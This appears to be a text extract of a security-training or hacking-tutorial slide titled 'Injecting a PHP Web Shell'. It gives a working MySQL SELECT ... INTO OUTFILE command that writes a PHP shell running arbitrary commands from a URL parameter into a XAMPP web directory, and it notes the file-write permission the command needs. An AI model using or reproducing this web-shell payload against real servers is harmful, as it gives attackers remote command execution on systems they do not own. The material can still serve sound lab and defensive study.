

# Injecting a PHP Web Shell
•	In the SQL tab, enter the following command:
SELECT "<?php system($_GET['cmd']); ?>"
INTO OUTFILE "C:\\xampp\\htdocs\\shell.php";
•	This command:
o	Creates a shell.php file in the web server directory.
o	Embeds a PHP script that executes system commands from the URL.
⚠️ Make sure MySQL has permission to write files!
________________________________________